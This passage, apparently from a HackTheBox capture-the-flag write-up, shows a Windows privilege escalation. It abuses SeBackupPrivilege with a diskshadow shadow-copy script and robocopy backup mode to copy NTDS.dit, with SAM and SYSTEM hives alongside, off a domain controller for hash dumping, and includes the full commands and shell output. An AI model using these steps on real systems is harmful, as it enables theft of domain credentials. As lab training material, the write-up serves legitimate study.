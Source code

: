 First let's create a script on our attacker machine which we can further *interpretate* with `diskshadow` to make the backup of the `NTDS`&#x20;

Save this into a `script.txt` file

```csharp
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

**What this script does:**

* Creates a shadow copy (snapshot) of the `C:` drive
* Exposes it as `E:` drive temporarily
* Uses backup context to bypass file locks

Then upload it to the `DC`&#x20;

```csharp
upload script.txt
Info: Uploading /home/delorian/HackTheBox/Medium/Baby/content/script.txt to C:\Temp\script.txt    
Data: 232 bytes of 232 bytes copied
Info: Upload successful!
```

**Why this works with `SeBackupPrivilege`:**

* Shadow copies allow reading locked files
* Backup flag in `robocopy` uses `SeBackupPrivilege` to bypass `ACLs`
* We get a clean copy of `NTDS.dit` without stopping AD service

```powershell
diskshadow /s script.txt
```

Then let's use `robocopy` to copy the file into our `C:\Temp` folder

```bash
robocopy /b E:\Windows\ntds . ntds.dit
```

And there we have our three files that we will use to dump hashes!!:

```
*Evil-WinRM* PS C:\Temp> dir
    Directory: C:\Temp
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/24/2025   8:20 AM       16777216 ntds.dit
-a----        10/24/2025   9:01 AM          49152 sam.hive
-a----        10/24/2025   9:05 AM            175 script.txt
-a----        10/24/2025   9:01 AM       20684800 system.hive
```
